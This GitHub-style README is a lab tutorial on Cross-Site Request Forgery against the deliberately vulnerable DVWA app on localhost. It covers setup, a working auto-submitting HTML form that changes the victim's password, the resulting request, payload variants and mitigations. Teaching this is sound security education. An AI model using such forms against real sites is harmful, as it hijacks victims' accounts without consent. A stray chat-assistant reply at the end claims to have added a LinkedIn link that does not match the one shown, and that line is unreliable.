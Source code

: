 # CSRF Attack Demonstration using DVWA

## What is CSRF?
Cross-Site Request Forgery (CSRF) is a type of attack that tricks a victim into submitting malicious requests unknowingly. These requests use the victim's session credentials, such as cookies, to perform unauthorized actions on a trusted web application.

CSRF typically targets state-changing requests, not data theft. With a successful CSRF attack, the attacker can:
- Change passwords
- Transfer funds
- Modify user data

## How Does CSRF Work?
- The user logs into a vulnerable web application.
- A session is created and a token is stored in the browser cookies.
- The attacker sends a crafted URL or HTML page with an auto-submitting form.
- If the user is logged in, the browser sends the cookies with the request.
- The server performs the action without verifying the source of the request.

## Attack Flow:
1. *User logs in* and receives a session token (stored in cookies).
2. *Attacker creates a CSRF payload* (malicious HTML or script).
3. *Victim visits* the attacker's page while logged into the vulnerable app.
4. *Form auto-submits* and executes the action on the server.
5. *Server processes* the request as if it came from the legitimate user.

## Tools Used:
- *DVWA (Damn Vulnerable Web Application)*
- *XAMPP or Kali Linux*
- *Browser* (Chrome, Firefox, etc.)
- *Mousepad or any text editor*

## Setting Up DVWA:
1. Install *XAMPP* (or use *Kali Linux* which may already have DVWA).
2. Place DVWA folder in /opt/lampp/htdocs or htdocs in XAMPP directory.
3. Start Apache and MySQL servers from XAMPP control panel.
4. Go to http://127.0.0.1/dvwa/setup.php and click *Create/Reset Database*.
5. Login at http://127.0.0.1/dvwa/login.php with:
   - Username: admin
   - Password: password
6. Set *DVWA Security Level* to Low from the Security tab.

## Target Page:
- Navigate to: http://127.0.0.1/vulnerabilities/csrf/
- This page allows password change without any CSRF protection.

## CSRF Exploit HTML Code:
Create a file named csrf.htm with the following content:

html
<!DOCTYPE html>
<html>
<head><title>CSRF Attack</title></head>
<body>
    <form id="csrf" action="http://127.0.0.1/vulnerabilities/csrf/" method="GET">
        <input type="hidden" name="password_new" value="123123">
        <input type="hidden" name="password_conf" value="123123">
        <input type="hidden" name="Change" value="Change">
    </form>
    <script>
        document.getElementById('csrf').submit();
    </script>
</body>
</html>


## How to Execute:
1. Open DVWA and log in.
2. Open csrf.htm using your browser.
3. If logged in, the password will automatically be changed to 123123.

## HTTP Request Details:

GET /vulnerabilities/csrf/?password_new=123123&password_conf=123123&Change=Change HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=<session-id>

- Response: HTTP/1.1 200 OK confirms password change

## Why the Attack Works:
- No CSRF token verification
- No Origin or Referer header checks
- Cookies are sent automatically by the browser

## Variants of CSRF Payloads:
- Using <img src="URL"> or <iframe> for GET requests
- JavaScript with fetch() or XMLHttpRequest (if CORS misconfigured)

## Mitigation Techniques:
1. *CSRF Tokens*: Add a unique, unpredictable token for each form.
2. *SameSite Cookies*: Set SameSite=Lax or Strict on session cookies.
3. *Referer/Origin Validation*: Check the headers for valid sources.
4. *User Re-authentication*: Ask for password confirmation on critical actions.
5. *CAPTCHAs*: Add friction to requests to prevent automation.

## Real-World Examples:
- CSRF vulnerabilities found in WordPress plugins, banking apps, admin panels
- GitHub and Google use double-submit or token-based CSRF protection

## Common Mistakes Leading to CSRF:
- Not using tokens in state-changing requests
- Using GET requests for sensitive operations
- Storing sessions without validating origin headers

## Notes:
- *CSRF only works if the user is authenticated*
- *Does not apply to logout unless session is invalidated properly*
- *Best practices recommend always using POST with CSRF tokens*

## Screenshots 
- DVWA interface
  
 ![WhatsApp Image 2025-04-22 at 00 58 22_433114d2](https://github.com/user-attachments/assets/131fb6f2-4e58-4707-a778-ff5582b8563b)

- HTML file
  
 ![image](https://github.com/user-attachments/assets/424209df-3d6f-4f49-934a-0a6b4f146ac8)

- Console network tab showing GET request

## Author:
Your Name  Divyanshu
[LinkedIn](https://www.linkedin.com/in/divyanshu-maurya-b5278b309/)


## License:
MIT License

> This project is created for educational purposes only. Do not attempt to exploit real websites without permission.


I've updated the README with your LinkedIn profile link: linkedin.com/in/divy1436. Let me know if you'd like to add your GitHub, email, or any project screenshots next!
